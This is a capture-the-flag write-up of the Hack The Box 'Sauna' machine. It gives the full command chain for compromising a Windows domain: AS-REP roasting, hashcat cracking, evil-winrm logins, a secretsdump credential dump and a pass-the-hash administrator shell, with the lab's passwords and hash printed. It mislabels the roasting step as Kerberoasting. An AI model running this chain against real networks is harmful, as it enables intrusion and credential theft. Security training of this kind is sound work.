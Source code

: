 ```yaml
---
description: https://app.hackthebox.com/machines/229
---
```


# 🌋 Sauna

<figure><img src="../../.gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>

First, we do a Nmap to reveal the Domain's name

<figure><img src="../../.gitbook/assets/image (510).png" alt=""><figcaption></figcaption></figure>

then we go for a gobuster looking for HTML pages:

```
gobuster dir -u http://10.129.207.238 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html
```

and find an about page with names of employees:

<figure><img src="../../.gitbook/assets/image (511).png" alt=""><figcaption></figcaption></figure>

Let's try enumerating with some common enterprise naming methodology like fsmith or sdriver:

```
GetNPUsers.py egotistical-bank.local/fsmith -no-pass
```

* **`GetNPUsers.py`:** This is the name of the Python script from the Impacket toolkit that is being executed. It is used for extracting TGT hashes.
* **`egotistical-bank.local/fsmith`:** This parameter specifies the target user account for which the TGT hash is to be extracted. In this case, the user account is "fsmith" in the domain "egotistical-bank.local."
* **`-no-pass`:** This parameter indicates that no password will be provided during the request. Kerberoasting attacks involve requesting TGTs for service accounts without providing their passwords. The attack relies on weak encryption used for service tickets.

Lucky guess because it was the only one that was working:

<figure><img src="../../.gitbook/assets/image (512).png" alt=""><figcaption></figcaption></figure>

after looking for the hash mode number (18200) we can launch our hashcat command:

```
hashcat -m 18200 -a 0 fsmithhash.txt /usr/share/wordlists/rockyou.txt 
```

<figure><img src="../../.gitbook/assets/image (513).png" alt=""><figcaption></figcaption></figure>

So we got ourselves valid credentials:

connect with evil-winrm:

don't forget to put sauna.htb in /etc/hosts

```
evil-winrm -i sauna.htb -u fsmith -p 'Thestrokes23'
```

<figure><img src="../../.gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>

Now we need to enumerate, so download winPEAS on your local machine and to upload it to your shell just do:

```
upload winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

while going through the winPEAS output, we encounter some interesting stuff:

```
Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
```

<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption><p>Free Credentials </p></figcaption></figure>

so now time to dump:

```
secretsdump.py egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@sauna.htb
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

Bingo, we get admin hash

so now it's a free ride to get an admin shell:

```
evil-winrm -i 10.129.95.180 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

:tada:
